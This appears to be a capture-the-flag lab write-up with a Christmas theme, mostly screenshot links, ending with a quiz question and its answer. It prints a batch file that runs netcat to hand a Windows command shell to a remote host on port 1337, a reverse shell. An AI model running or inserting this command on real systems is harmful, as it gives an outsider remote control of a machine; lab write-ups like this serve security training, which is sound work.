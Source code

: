 <br>

![image](https://github.com/user-attachments/assets/db433eca-4470-44d7-bb3d-7a6a408ebb35)


<br>

![image](https://github.com/user-attachments/assets/dba0f626-8ecd-4921-b665-a014f1f6574e)


<br>

![image](https://github.com/user-attachments/assets/1600e8f8-8083-4b47-889b-3b77d575eb78)



<br>

<code>@echo off</code><br>
<code>C:\Users\McSkidy\Downloads\nc.exe -nv 10.10.72.55 1337 -e cmd.exe</code><br>

<br>

![image](https://github.com/user-attachments/assets/aa991830-993d-487b-9f24-10a349164011)

<br>

![image](https://github.com/user-attachments/assets/06731c3f-f490-4f05-88d6-8bcb86f71ebe)



<br>

![image](https://github.com/user-attachments/assets/5243f622-8bd7-40e9-b1a9-ef009cc47818)

<br>

![image](https://github.com/user-attachments/assets/a95c32ef-eac2-4843-a6a2-6195fd3ea708)

<br>

![image](https://github.com/user-attachments/assets/b5242ba3-4a26-4f2a-9701-5affc5b8eb9e)

<br>

![image](https://github.com/user-attachments/assets/06a91cea-effa-4629-b79f-f3181193a96f)

<br>

![image](https://github.com/user-attachments/assets/f38cc281-c544-47f8-b3b5-000b1e8f18ba)

<br>


1.7. The Grinch forgot to delete a file where he kept notes about his schedule! Where can we find him at 5:30?<br>
<code>jazzercize</code><br>

<br>
